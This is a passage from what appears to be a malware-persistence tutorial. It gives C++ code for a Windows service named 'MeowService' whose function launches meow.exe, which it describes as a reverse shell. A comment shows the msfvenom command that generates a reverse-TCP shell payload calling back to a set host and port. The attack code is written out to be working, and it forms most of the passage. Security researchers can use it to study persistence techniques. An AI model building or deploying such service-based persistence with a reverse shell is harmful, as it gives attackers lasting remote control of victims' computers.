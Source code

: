 ```cpp
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.

Also, create function with *evil* logic:

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: 
  // msfvenom -p windows/x64/shell_reverse_tcp 
  // LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\2022-05-09-malware-pers-4\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, 
  NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", 
    (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

As I wrote earlier, just create our reverse shell process (`meow.exe`):    
